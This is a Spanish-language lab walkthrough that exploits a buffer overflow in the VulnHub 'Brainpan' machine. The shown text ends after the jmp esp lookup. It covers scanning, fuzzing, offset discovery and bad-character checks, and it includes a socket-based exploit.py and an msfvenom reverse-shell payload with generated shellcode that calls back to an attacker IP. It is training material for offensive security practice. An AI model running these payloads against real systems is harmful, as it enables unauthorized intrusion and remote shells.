---
# Guía paso a paso de explotación:

## Información general

- **Nombre**: Brainpan
- **Plataforma**: VulnHub
- **Descarga**:  [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/)  
- **Nivel**: Difícil
- **IP**:  [Configuración de entorno](./Configuración%20de%20entorno.md)
- **Objetivo**: Obtener acceso root para pivotar por las diferentes redes del sistema


---

## Reconocimiento


Acción:

```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -p{} --open -sT -n -Pn -v --min-rate 5000 172.18.0.131 2>&1 | grep "tcp open" 
```

Resultado:

```bash
9999/tcp open  abyss
10000/tcp open  snet-sensor-mgmt
```

Acción:

```url
http://172.18.0.131:10000/
```



Explicación: encontramos una página web expuesta por el puerto `10000`

Acción:

```bash
proxychains nc 172.18.0.131 9999
```

Resultado:

```bash
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:9999-<>-127.0.0.1:8888-<--timeout
|D-chain|-<>-127.0.0.1:9999-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:9999-<><>-172.18.0.131:9999-<><>-OK
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> 
```

Explicación: por el puerto `9999` encontramos una aplicación. Por lógica, vamos a volver a probar si es explotable por un Buffer Over Flow, vamos a introducir una carga alta de caracteres y ver si se produce algún error


---

## Fuzzing

Acción: abrimos *BurpSuite* y añadimos el Socks creado `Setting->Network->Connections`. Añadimos como host la IP local `127.0.0.1` y como puerto el que conecta con  Brainpan `9999`



Explicación: ahora con BurpSuite vamos a poder interceptar peticiones del navegador (hay que activar en foxyproxy la pestaña configurada con el proxy de BurpSuite)

Acción:

```bash
http://172.18.0.131:10000/test
```

Acción: interceptamos con BurpSuite

```bash
ctrl+i
```

Explicación: interceptamos con BurpSuite y enviamos al `intruder` la petición, para poder desde BurpSuite hacer fuzzing de directorios y rutas ocultas. Ya que debido a la cantidad de proxys, es normal que herramientas como *Gobuster* fallen



Explicación para hacer fuzzing con BurpSuite como haríamos con Gobuster, tenemos que seleccionar el endpoint (en este caso `test` y dale a `add`), luego en la pestaña `Payload` cargamos el archivo que contiene las rutas como haríamos con Gobuster `load -> SecList`. Para iniciar el ataque `snipper` le damos a `Start attack` 



Explicaicón: encontramos el endpoint `/bin/` 

Acción:

```url
http://172.18.0.131:10000/bin/
```



Explicación: acudimos desde el navegador (cambiamos el foxyproxy a Brainpan) y se nos comparte un archivo .exe que es el programa que vimos expuesto por el puerto `9999` (este será el archivo que tendremos que debuguear para aplicar el Buffer Over Flow)


---

## Buffer Over Flow
### Debugging 

Para aplicar el debugging al archivo `.exe` necesitamos usar una máquina Windows de 32 bit con *Immunity Debugger* 

[Ver qué es Immunity Debugger](../../Buffer%20Overflow/Immunity%20Debugger.md)

Acción: nos transferimos el archivo `.exe` a la máquina de debugging Windows 7 32 bit

```bash
python3 -m http.server 80
```

Acción: acudimos al servidor expuesto para descargar el archivo

```bash
htttp://192.168.1.66/
```

Acción: Primero abrimos el `brainpan.exe` desde Windows 7; Segundo ejecutamos Immunity Debugger, para conocer el procedimiento visitar [Immunity Debugger](../../Buffer%20Overflow/Immunity%20Debugger.md). Básicamente, añadimos con `Brianpan` al `Attach` y dándole a  `Play`; Y, tercero, por otro ejecutamos el programa pero desde la red de Windows 7 donde corre Immunity Debugger en nuestra máquina atacante





Explicación: introduciendo más `A` de las que el buffer soporta se produce un error y vemos como en Immunity Debugger se pausa y obtenemos el `ESP` adulterado con nuestras `A = 4141414141`

Acción:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000      
```

Resultado:

```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

Explicación: ahora volvemos a producir el error pero esta vez ejecutando un payload especialmente diseñado para detectar el EIP exacto, en Immunity Debugger veremos el EIP que tendremos que usar para saber el nº de caracteres permitidos en el buffer y en los que a partir de esos, se sobrescribe el EIP tomando nosotros/as su control

Acción: 

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
```

Resultado:

```bash
[*] Exact match at offset 524
```

Acción:

```bash
python3 -c 'print("A"*524 + "B"*4 + "C"*200)'
```

Resultado:

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

Explicación: generamos payload a introducir de nuevo para comprobar si es cierto el control de EIP, deberíamos de ver `42424242`



Explicación: confirmamos control del EIP





Explicación: haciendo `Follow in Dump` en el EIP podemos ver en la ventana de abajo a la izquierda como justo después del EIP aparecen nuestras 'C', esto indica que si logramos que el flujo del programa apunte a una dirección que aplique un offcode que aplique un salto al ESP, como esto es la pila/stack podemos poner shellcode, ver si lo interpreta y logramos enviarnos una Reverse Shell a la máquina atacante explotando este Buffer Over Flow

Acción: necesitamos saber que caracteres no podemos usar (*badchars*) en el shellcode 

```bash
!mona config -set workingfolder C:\Users\vboxusers\Desktop\Binary\%p
```



Explicaicón: creamos una ruta en la que almacenar el shellcode personalizado sin badchars

Acción:

```bash
!mona bytearray -cpb "\x00"
```



Explicación: obtenemos el shellcode sin el valor `\x00` ya que es común que de problemas, la idea ahora es detectar si hay algún badchar más. Podemos copiar y pegar solo el shellcode en un archivo de nuestra máquina atacante, o compartirnos el archivo con cualquiera de los múltiples existentes

Acción:

```bash
cat bytearray
```

Resultado:

```bash
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Acción:

```bash
nano exploit.py
```

Resultado:

```python
#!/usr/bin/env python3

import socket
from struct import pack

offset = 524
before_eip = b"A" * offset
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.65", 9999))
s.send(payload)
s.close()
```

Explicación: creamos script para explotar Buffer Over Flow. Volvemos a ejecutar Immunity Debugger, el archivo `brainpan.exe` en Windows 

Acción:

```bash
python3 exploit.py
```

Resultado: confirmamos en Immunity Debugger que se produjo el error, por lo que tenemos que comprobar el ESP para ver los badchars. Como vemos que nos dice `Unmodified` quiere decir que no hay más badchars, aparte del que ya omitimos que fue el `\x00`



Explicación:

comando `mona`:

```bash
!mona compare -f C:\Users\vbouser\Desktop\Binary_no_name\bytearray.bin -a 0022F930
```

Acción:

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.66 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00' EXITFUNC=thread
```

Resultado:

```bash
"\xdb\xd8\xb8\x67\xb4\xf0\x9c\xd9\x74\x24\xf4\x5d\x2b\xc9"
"\xb1\x52\x83\xed\xfc\x31\x45\x13\x03\x22\xa7\x12\x69\x50"
"\x2f\x50\x92\xa8\xb0\x35\x1a\x4d\x81\x75\x78\x06\xb2\x45"
"\x0a\x4a\x3f\x2d\x5e\x7e\xb4\x43\x77\x71\x7d\xe9\xa1\xbc"
"\x7e\x42\x91\xdf\xfc\x99\xc6\x3f\x3c\x52\x1b\x3e\x79\x8f"
"\xd6\x12\xd2\xdb\x45\x82\x57\x91\x55\x29\x2b\x37\xde\xce"
"\xfc\x36\xcf\x41\x76\x61\xcf\x60\x5b\x19\x46\x7a\xb8\x24"
"\x10\xf1\x0a\xd2\xa3\xd3\x42\x1b\x0f\x1a\x6b\xee\x51\x5b"
"\x4c\x11\x24\x95\xae\xac\x3f\x62\xcc\x6a\xb5\x70\x76\xf8"
"\x6d\x5c\x86\x2d\xeb\x17\x84\x9a\x7f\x7f\x89\x1d\x53\xf4"
"\xb5\x96\x52\xda\x3f\xec\x70\xfe\x64\xb6\x19\xa7\xc0\x19"
"\x25\xb7\xaa\xc6\x83\xbc\x47\x12\xbe\x9f\x0f\xd7\xf3\x1f"
"\xd0\x7f\x83\x6c\xe2\x20\x3f\xfa\x4e\xa8\x99\xfd\xb1\x83"
"\x5e\x91\x4f\x2c\x9f\xb8\x8b\x78\xcf\xd2\x3a\x01\x84\x22"
"\xc2\xd4\x0b\x72\x6c\x87\xeb\x22\xcc\x77\x84\x28\xc3\xa8"
"\xb4\x53\x09\xc1\x5f\xae\xda\x2e\x37\xb1\x58\xc7\x4a\xb1"
"\x5d\xac\xc2\x57\x37\xc2\x82\xc0\xa0\x7b\x8f\x9a\x51\x83"
"\x05\xe7\x52\x0f\xaa\x18\x1c\xf8\xc7\x0a\xc9\x08\x92\x70"
"\x5c\x16\x08\x1c\x02\x85\xd7\xdc\x4d\xb6\x4f\x8b\x1a\x08"
"\x86\x59\xb7\x33\x30\x7f\x4a\xa5\x7b\x3b\x91\x16\x85\xc2"
"\x54\x22\xa1\xd4\xa0\xab\xed\x80\x7c\xfa\xbb\x7e\x3b\x54"
"\x0a\x28\x95\x0b\xc4\xbc\x60\x60\xd7\xba\x6c\xad\xa1\x22"
"\xdc\x18\xf4\x5d\xd1\xcc\xf0\x26\x0f\x6d\xfe\xfd\x8b\x8d"
"\x1d\xd7\xe1\x25\xb8\xb2\x4b\x28\x3b\x69\x8f\x55\xb8\x9b"
"\x70\xa2\xa0\xee\x75\xee\x66\x03\x04\x7f\x03\x23\xbb\x80"
"\x06"
```

Acción:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

Resultado:

```bash
nasm > jmp ESP
00000000  FFE4              jmp esp
```

